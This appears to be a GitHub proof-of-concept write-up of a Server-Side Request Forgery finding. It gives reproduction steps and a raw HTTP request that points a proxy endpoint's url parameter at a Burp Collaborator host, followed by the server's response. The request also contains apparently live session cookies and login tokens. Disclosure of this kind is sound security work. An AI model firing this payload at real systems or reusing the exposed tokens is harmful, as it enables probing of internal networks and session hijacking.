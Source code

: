 # PoCSSrfApp

Server-Side Request Forgery (SSRF) refers to an attack, wherein an attacker can send a crafted request from a vulnerable web application. SSRF is mainly used to target internal systems behind WAF (web application firewall), that are unreachable to an attacker from the external network. Additionally, it’s also possible for an attacker to mark SSRF, for accessing services from the same server that is listening on the loopback interface address called (127.0.0.1).

Severity:HIGH

Steps to reproduce:
1.Visit: subdomain.target.com/api/v1/core/proxy/jsonprequest?objresponse=false&websiteproxy=true&escapestring=false&url=?
2.Change the Value of Url= to your Hosted Server (I change it to my burp Collaborator)
3.Forward the request and check for log and response.
4.In my case I was able to get collaborator response.

Impact:
By this attack, an attacker can gather information about ports, IP addresses, Remote Code Execution (RCE), and can also discover the IP addresses of servers running behind a reverse proxy, etc.




Request:
GET /api/v1/core/proxy/jsonprequest?objresponse=false&websiteproxy=true&escapestring=false&url=http://kui5ntipd353w4eekwtxhc5af1lu9oxel58ywn.burpcollaborator.net? HTTP/1.1
Host: redacted.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain
RemoveHeader-Transfer-Encoding: true
ExtraHeader-Access-Control-Expose-Headers: Removed-X-Frame-Options
RemoveHeader-X-Frame-Options: true
X-Requested-With: XMLHttpRequest
Connection: close
Referer: https://redacted.com/library/virtual/library/workspaces/dcdc8c58-f282-4d79-b519-bf093273ff58/index.html?editing=true&display_mode=tv
Cookie: _gcl_au=1.1.605860964.1611041064; _ga=GA1.2.237028277.1611041073; _fbp=fb.1.1613375264845.130352864; ASP.NET_SessionId=hrm4kw45gl2ikz55rylyxm45; __AntiXsrfToken=e3a9153874de4f03800ea59f647b5bec; appspace-core-token=c2bd442f-8a97-46fe-8341-e27b30e6a146; ticket=c2bd442f-8a97-46fe-8341-e27b30e6a146; logincookie=AFDF47507F483F7944E5B6D99246310F6CA4300B6BC43EF47B8A73C52AAF2165BC3D79B0C573DA1189B586F86DDEEA19CD820DA2E0EB269812587CDFF3A08CF74907E6D1C370490A37DC8DEF89ADE6117A1806F6A6D83609AA5A47A9A02766CFE33193726211736D5B07B056CE53B9EADC7723CDFE99A9F1AD499CB399B5F1B88A58822B1BC4BE537C704E8F89F9496FA7972266AA00328F524443BC95D29D0B902BF81AAF3AA748FEBA342A2402EDB35A05038AEC3948C60C34B4B99A52F76E0E16F2A43F33295F6FCF83C107453CCC2D762EAB; __RequestVerificationToken_L2xpYnJhcnk1=sVXhPQSiCj559qE00AolIlSK2peRu_X1qWB8rKI-XpShQ1ewAynE98K06L4jIGvklTAFiSYWXBw16C9w8XwLnME2ITpVvnD66BYjVBUm5ys1


Response:
HTTP/1.1 200 OK
Cache-Control: no-cache, no-store
Content-Type: text/html
Vary: Accept-Encoding
X-Collaborator-Version: 4
Access-Control-Expose-Headers: Removed-X-Frame-Options
Access-Control-Allow-Origin: *
Access-Control-Request-Methods: GET, POST, PUT, DELETE, OPTIONS
Access-Control-Allow-Headers: authorization,origin,x-my-header,host,accept,content-type,cache-control
Access-Control-Allow-Origin: *
Date: Wed, 24 Feb 2021 06:19:52 GMT
Connection: close
Content-Length: 61

<html><body>dlgnon6ksjta2ya1tg7gq2zjlgmgigjflgz</body></html>






